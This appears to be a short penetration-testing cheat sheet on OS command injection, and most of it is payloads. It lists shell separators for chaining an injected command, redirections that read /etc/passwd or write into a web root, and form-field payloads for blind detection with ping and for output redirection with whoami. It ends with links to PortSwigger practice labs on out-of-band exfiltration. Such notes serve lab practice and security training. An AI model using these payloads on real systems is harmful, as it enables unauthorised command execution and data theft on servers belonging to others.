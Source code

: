 - Command Injection/Execution :
```sh
#Both Unix and Windows supported
ls||id; ls ||id; ls|| id; ls || id # Execute both
ls|id; ls |id; ls| id; ls | id # Execute both (using a pipe)
ls&&id; ls &&id; ls&& id; ls && id #  Execute 2º if 1º finish ok
ls&id; ls &id; ls& id; ls & id # Execute both but you can only see the output of the 2º
ls %0A id # %0A Execute both (RECOMMENDED)

#Only unix supported
`ls` # ``
$(ls) # $()
ls; id # ; Chain commands
ls${LS_COLORS:10:1}${IFS}id # Might be useful
0x0a or \n #Newline 

#Not executed but may be interesting
> /var/www/html/out.txt #Try to redirect the output to a file
< /etc/passwd #Try to send some input to the command
```

- Detecting blind OS command injection :
```sh
& ping -c 10 127.0.0.1 &
#Request Post :
name=dede&email=test%40gmail.com||+ping+-c+10+127.0.0.1+||&subject=dede&message=deeeeeeeeeeee
```

`Don't forget to try every possibilities !`

- Output redirection: 
```sh
name=test&email=||whoami>/var/www/images/output.txt||&subject=test&message=test
```

 **Blind OS command injection with out-of-band interaction**
 
 Lab :https://portswigger.net/web-security/os-command-injection/lab-blind-out-of-band

 **Blind OS command injection with out-of-band data exfiltration**

Lab : https://portswigger.net/web-security/os-command-injection/lab-blind-out-of-band-data-exfiltration